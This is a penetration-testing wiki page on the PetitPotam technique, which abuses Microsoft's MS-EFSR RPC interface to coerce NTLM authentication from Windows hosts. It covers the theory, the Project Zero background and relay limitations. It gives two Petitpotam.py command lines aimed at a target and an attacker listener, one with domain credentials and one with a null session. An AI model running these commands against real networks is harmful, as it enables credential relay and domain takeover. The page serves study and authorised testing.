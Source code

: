# MS-EFSR abuse \(PetitPotam\)

## Theory

MS-EFSR is Microsoft's Encrypting File System Remote protocol. It performs maintenance and management operations on encrypted data that is stored remotely and accessed over a network \([docs.microsoft.com](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr)\) and is available as an RPC interface. That interface is available through the `\pipe\efsrpc`, `\pipe\lsarpc`, `\pipe\samr`, `\pipe\lsass` and `\pipe\netlogon` SMB named pipes.

In 2019, Google's Project Zero research team found and reported a bug on MS-EFSR that could be combined with a [NTLM Reflection attack](https://bugs.chromium.org/p/project-zero/issues/detail?id=222) leading to a Local Privilege Elevation. An insufficient path check in MS-EFSR's `EfsRpcOpenFileRaw` method allowed attackers to force the `SYSTEM` account into creating an executable file of the attacker's choosing, hence providing the attacker with local admin rights.

While the wider implications of this bug, AD-DS-wise, were only suspected, in 2021, [Gilles LIONEL](https://twitter.com/topotam77/status/1416833996923809793) used that bug to remotely coerce domain-joined machine's authentication.

{% hint style="warning" %}
At the time of writing \(2021/07/20\), this bug has not been addressed by Microsoft.
{% endhint %}

## Practice

An authentication can be forced with the original author's proof-of-concepts dubbed "[PetitPotam](https://github.com/topotam/PetitPotam)" \(available in C and Python\) by using a valid AD account's credentials.

```bash
Petitpotam.py -d $DOMAIN -u $USER -p $PASSWORD $ATTACKER_IP $TARGET_IP
```

{% hint style="info" %}
**Nota bene**: the coerced NTLM authentication will be made through SMB. This is important because it restricts the possibilites of [NTLM relay](../lm-and-ntlm/relay.md). For instance, an "unsigning cross-protocols relay attack" from SMBv2 to LDAP will only be possible if the target is vulnerable to CVE-2019-1040 or CVE-2019-1166.
{% endhint %}

{% hint style="success" %}
Some tests conducted in lab environments showed that, unlike the [MS-RPRN abuse \(printbug\)](ms-rprn.md), a NULL session could potentially be used to trigger that bug \(if allowed by the target\). This has only been verified to be working on on Windows Server 2016 and Windows Server 2019 Domain Controllers.

```bash
Petitpotam.py $ATTACKER_IP $TARGET_IP
```
{% endhint %}

## References

{% embed url="https://www.exploit-db.com/exploits/47115" %}

{% embed url="https://github.com/topotam/PetitPotam/blob/main/Petitpotam.py" %}

